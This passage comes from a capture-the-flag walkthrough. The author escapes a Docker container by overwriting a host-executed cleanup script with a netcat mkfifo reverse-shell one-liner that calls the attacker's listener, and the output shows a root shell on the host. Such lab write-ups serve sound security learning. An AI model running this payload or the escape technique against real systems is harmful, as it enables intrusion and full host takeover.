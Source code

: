 When we look in that folder we find just one file:

```text
root@7546fa2336d6:/# cd /opt/clean

root@7546fa2336d6:/opt/clean# ls -lsa
4 drwxr-xr-x 2 root root 4096 May  1 00:20 .
8 drwxrwxr-x 1 root root 4096 Mar 25 16:08 ..
4 -rw-r--r-- 1 root root   27 May  1 00:20 clean.sh

root@7546fa2336d6:/opt/clean# cat clean.sh 
#!/bin/bash
rm -rf /tmp/*
```

So we have a batch file that is clearing out anything in the /tmp folder. As that file is running from the mount point, then we can assume it is the host systems /tmp folder, not the one here in the container. To test this we can create a file in /tmp and see if it is deleted:

```text
root@7546fa2336d6:/opt/clean# touch /tmp/pencer

root@7546fa2336d6:/opt/clean# ls -l /tmp
-rw-r--r-- 1 root root 0 Jun  6 21:56 pencer

root@7546fa2336d6:/opt/clean# date
Sun Jun  6 21:56:24 UTC 2021

root@7546fa2336d6:/opt/clean# date
Sun Jun  6 22:02:09 UTC 2021

root@7546fa2336d6:/opt/clean# ls -l /tmp
total 0
-rw-r--r-- 1 root root 0 Jun  6 21:56 pencer
```

My file is still there, which to me suggests either there is no cronjob running on the host, or the /tmp it is cleaning is not the one local to me.

We have write permissions to the file so why not try changing it to firing a reverse shell at us? I know the one I used earlier worked, so let's use the same again but with a different port:

```text
root@7546fa2336d6:/opt/clean# echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.165.116 4444 >/tmp/f" > /opt/clean/clean.sh
```

Now we wait, and eventually I get a connection to my new netcat listener:

```text
┌──(root💀kali)-[~/thm/catpics]
└─# nc -nlvp 4444  
listening on [any] 4444 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.161.99] 53580
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

# hostname
cat-pictures
```
